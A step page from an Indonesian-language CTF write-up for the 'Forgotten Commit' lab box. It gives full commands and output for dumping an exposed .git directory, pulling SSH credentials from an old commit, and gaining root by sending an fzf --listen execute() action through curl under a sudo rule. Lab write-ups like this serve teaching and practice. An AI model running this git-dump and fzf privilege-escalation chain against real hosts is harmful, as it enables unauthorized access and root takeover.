


# Forgotten Commit (Root) — Eksploitasi / Solver

[← Overview](01-forgotten-commit-root.md) · [Index](index.md)

> **Langkah 4/8 — Eksploitasi / Solver.** Di dalam sesi SSH, jalankan fzf sebagai root.
>
> **Titik penting:** sudo -n /usr/local/bin/fzf --listen 1337 · fzf 0.74.3 · NFX{fzf_l1st3n_r00t_sh3ll_pwn3d}
>
> **Berikutnya:** [Kenapa fzf bisa menjadi privesc](01-forgotten-commit-root-05-kenapa-fzf-bisa-menjadi-privesc.md)

## 3.1 Strategi

1. Dump `.git` dari webroot.
2. Baca inventory di commit lama untuk mendapatkan kredensial SSH.
3. SSH sebagai `leonardo`, baca user flag.
4. Cek `sudo -n -l`; temukan `fzf --listen 1337` sebagai root.
5. Jalankan fzf sebagai root, lalu kirim action `execute(...)` ke
   `127.0.0.1:1337`.
6. Copy `/root/root.txt` ke lokasi yang bisa dibaca, lalu `cat`.

## 3.2 Langkah exploit

```bash
# 1) Dump repository dari webroot
git-dumper http://10.10.20.21/ /tmp/nexus_repo

# 2) Lihat history dan ambil inventory lama
git -C /tmp/nexus_repo log --oneline --all --decorate
git -C /tmp/nexus_repo show --stat --oneline 5c65d99
git -C /tmp/nexus_repo show 8acfc1f:ansible/inventory.ini

# 3) SSH dengan kredensial hasil leak
ssh leonardo@10.10.20.21
# Dev0pment#2026!

# 4) Baca user flag dan cek sudo
cat /home/leonardo/user.txt
sudo -n -l
```

Di dalam sesi SSH, jalankan fzf sebagai root. Karena fzf membutuhkan terminal,
lakukan di PTY (sesi SSH interaktif) dan biarkan berjalan:

```bash
sudo -n /usr/local/bin/fzf --listen 1337
```

Dari sesi SSH kedua (atau background job), kirim action remote-control:

```bash
curl -sS -X POST --data-binary \
  'execute(cp /root/root.txt /tmp/rootflag; chmod 644 /tmp/rootflag)' \
  http://127.0.0.1:1337/
```

Action `execute(...)` menjalankan command di shell, sehingga `cp` dan `chmod`
dieksekusi sebagai root. Setelah itu:

```bash
cat /tmp/rootflag
```

## 3.3 Output

```text
leonardo@...$ cat /home/leonardo/user.txt
NFX{g1t_h1story_s3cr3ts_l34d_t0_ssh}

leonardo@...$ sudo -n -l
User leonardo may run the following commands on ...:
    (root) NOPASSWD: /usr/local/bin/fzf --listen 1337

leonardo@...$ /usr/local/bin/fzf --version
fzf 0.74.3

# terminal lain:
leonardo@...$ curl -sS -X POST --data-binary \
  'execute(cp /root/root.txt /tmp/rootflag; chmod 644 /tmp/rootflag)' \
  http://127.0.0.1:1337/

leonardo@...$ cat /tmp/rootflag
NFX{fzf_l1st3n_r00t_sh3ll_pwn3d}
```

### Evidence langkah ini



*Terminal evidence — live rerun 2026-11-09 (`03-live-user-sudo.txt`).*



*Terminal evidence — live rerun 2026-11-09 (`03b-live-root.txt`).*

**Berkas mentah langkah ini:**

- [`03-live-user-sudo.txt`](assets/forgotten-commit-root/03-live-user-sudo.txt)
- [`03b-live-root.txt`](assets/forgotten-commit-root/03b-live-root.txt)
